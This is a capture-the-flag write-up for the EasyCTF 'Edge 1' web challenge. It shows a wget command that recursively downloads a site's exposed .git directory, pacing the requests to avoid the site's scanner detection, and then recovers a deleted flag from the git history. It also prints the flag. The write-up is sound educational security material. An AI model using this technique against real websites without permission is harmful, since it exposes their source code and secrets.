

Edge 1
======
* **100 points**
* **Category: Web**
* **Problem statement:** _We found Edge inc's website! Take a look at it here._
* **Hint:** _No hint_


We found this challenge quite hard, because it was hard to figure out what to do. Let it suffice to say, we tried _many_ ways to solve this, as theres no reason to discuss the failed solution attempts.

The staff made it quite clear that one should not use dirbuster for this challenge, so we also took that to mean that we should also not be guessing directories. (We looked at /js and /css, and the un-mini-d bootstrap files and tried manually guessing many directories, but we abandoned directory guessing upon being told dirbusting was not necessary)

What you had to do however, was guess the `.git` directory.



Once you did that, do a recursive download of the directory. I did: `wget -r -w 2 -nc http://edge1.web.easyctf.com/.git/`

The `-w 2` was necessary to avoid their dirbuster sensors that would make every attempted site give 403 errors. This for some reason downloaded many `index.php?<some strange str>` files that were irrelevant, which I had to delete.

Do a `git log` on the base directory and see:
``` html
$ git log
commit ee9061b25d8a35bae8380339f187b44dc26f4999
Author: Michael <michael@easyctf.com>
Date:   Mon Mar 13 07:11:47 2017 +0000

    Whoops! Remove flag.

commit afdf86202dc8a3c3d671f2106d5cffa593f2b320
Author: Michael <michael@easyctf.com>
Date:   Mon Mar 13 07:11:45 2017 +0000

    Initial.

commit 15ca375e54f056a576905b41a417b413c57df6eb
Author: Fernando <fermayo@gmail.com>
Date:   Sat Dec 14 12:50:09 2013 -0300

    initial version

commit 8ac4f76df2ce8db696d75f5f146f4047a315af22
Author: Fernando Mayo <fermayo@gmail.com>
Date:   Sat Dec 14 07:36:18 2013 -0800

    Initial commit
```

So we just need to get the commit before Michael deleted the flag!

Do git checkout afdf86202dc8a3c3d671f2106d5cffa593f2b320

Navigate to the base directory, and theres a flag.txt!

``` bash
$ cat flag.txt
easyctf{w3_ev3n_u53_git}
```
